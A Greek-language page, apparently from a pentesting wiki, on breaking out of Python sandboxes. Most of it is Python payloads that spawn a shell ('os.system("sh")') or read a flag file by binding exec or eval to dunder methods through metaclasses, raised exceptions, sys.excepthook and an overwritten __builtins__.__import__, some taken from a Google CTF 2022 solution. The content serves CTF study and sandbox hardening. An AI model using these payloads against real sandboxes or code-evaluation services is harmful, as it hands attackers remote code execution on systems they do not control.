 Το κύριο πράγμα που μας επιτρέπουν οι μετακλάσεις είναι **να δημιουργήσουμε μια παρουσία μιας κλάσης, χωρίς να καλέσουμε απευθείας τον κατασκευαστή**, δημιουργώντας μια νέα κλάση με την επιθυμητή κλάση ως μετακλάση.
```python
# Code from https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/ and fixed
# This will define the members of the "subclass"
class Metaclass(type):
__getitem__ = exec # So Sub[string] will execute exec(string)
# Note: Metaclass.__class__ == type

class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
pass # Nothing special to do

Sub['import os; os.system("sh")']

## You can also use the tricks from the previous section to get RCE with this object
```
#### Δημιουργία αντικειμένων με εξαιρέσεις

Όταν μια **εξαίρεση ενεργοποιείται**, ένα αντικείμενο της **Εξαίρεσης** **δημιουργείται** χωρίς να χρειάζεται να καλέσετε απευθείας τον κατασκευαστή (ένα κόλπο από [**@\_nag0mez**](https://mobile.twitter.com/\_nag0mez)):
```python
class RCE(Exception):
def __init__(self):
self += 'import os; os.system("sh")'
__iadd__ = exec #Triggered when object is created
raise RCE #Generate RCE object


# RCE with __add__ overloading and try/except + raise generated object
class Klecko(Exception):
__add__ = exec

try:
raise Klecko
except Klecko as k:
k + 'import os; os.system("sh")' #RCE abusing __add__

## You can also use the tricks from the previous section to get RCE with this object
```
### Περισσότερο RCE
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
# If sys is imported, you can sys.excepthook and trigger it by triggering an error
class X:
def __init__(self, a, b, c):
self += "os.system('sh')"
__iadd__ = exec
sys.excepthook = X
1/0 #Trigger it

# From https://github.com/google/google-ctf/blob/master/2022/sandbox-treebox/healthcheck/solution.py
# The interpreter will try to import an apt-specific module to potentially
# report an error in ubuntu-provided modules.
# Therefore the __import__ functions are overwritten with our RCE
class X():
def __init__(self, a, b, c, d, e):
self += "print(open('flag').read())"
__iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```